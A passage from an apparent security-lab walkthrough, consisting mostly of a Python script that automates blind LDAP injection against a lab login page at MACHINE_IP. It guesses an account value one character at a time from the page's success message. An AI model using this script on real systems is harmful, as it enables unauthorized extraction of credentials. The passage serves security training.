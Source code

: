 
---

# Automating the Exploitation

### Exploit Code

To automate the exfiltration of data in the previous task, you can use the Python script below:

```python
import requests
from bs4 import BeautifulSoup
import string
import time

# Base URL
url = 'http://MACHINE_IP/blind.php'

# Define the character set
char_set = string.ascii_lowercase + string.ascii_uppercase + string.digits + "._!@#$%^&*()"

# Initialize variables
successful_response_found = True
successful_chars = ''

headers = {
    'Content-Type': 'application/x-www-form-urlencoded'
}

while successful_response_found:
    successful_response_found = False

    for char in char_set:
        #print(f"Trying password character: {char}")

        # Adjust data to target the password field
        data = {'username': f'{successful_chars}{char}*)(|(&','password': 'pwd)'}

        # Send POST request with headers
        response = requests.post(url, data=data, headers=headers)

        # Parse HTML content
        soup = BeautifulSoup(response.content, 'html.parser')

        # Adjust success criteria as needed
        paragraphs = soup.find_all('p', style='color: green;')

        if paragraphs:
            successful_response_found = True
            successful_chars += char
            print(f"Successful character found: {char}")
            break

    if not successful_response_found:
        print("No successful character found in this iteration.")

print(f"Final successful payload: {successful_chars}")
```
